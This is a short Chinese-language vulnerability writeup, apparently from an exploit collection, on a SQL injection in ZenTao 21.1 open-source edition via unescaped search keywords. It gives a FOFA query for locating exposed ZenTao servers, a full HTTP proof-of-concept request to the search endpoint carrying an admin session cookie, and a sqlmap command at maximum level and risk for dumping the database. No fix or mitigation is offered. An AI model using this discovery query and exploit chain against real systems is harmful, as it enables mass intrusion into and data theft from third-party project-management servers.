 # 禅道21.1开源版存在SQL注入漏洞

禅道21.1 module\search\ control.php 在 againstCond 的拼接过程中，每个单词被直接添加到查询条件中，没有进行任何过滤或转义处理。如果 $word 是单引号（'），它会被包含在 + 运算符和双引号内，导致生成的 SQL 查询语句不正确。likeCondition 直接将 $keywords 插入到 SQL 查询中，没有进行任何过滤或转义处理。如果 $keywords 包含特殊字符（如单引号等），会导致生成的 SQL 查询语句不正确，从而产生 SQL 注入漏洞。

## fofa

```javascript
app="易软天创-禅道系统"
```

## poc

```javascript
GET /index.php?m=search&f=index&words=1&type=all&zin=1 HTTP/1.1
Host: 192.168.88.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.88.6/
X-ZIN-Options: {"selector":["#configJS","title>","body>*"],"type":"list"}
X-ZIN-App: search
X-Zin-Cache-Time: 0
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Cookie: zentaosid=d5ikdmm295l1ca5ec4an8p4f7u; lang=zh-cn; vision=rnd; device=desktop; theme=default; keepLogin=on; za=admin; zp=abd630d8e942046184fb94d4e591e66cd011665a; hideMenu=false; tab=search
Priority: u=4
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501131036576.png)

python sqlmap.py -r 1.txt --level=5 --risk=3 --threads=10 --dbms=mysql

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501131037779.png)

## 漏洞来源

- https://xz.aliyun.com/t/16976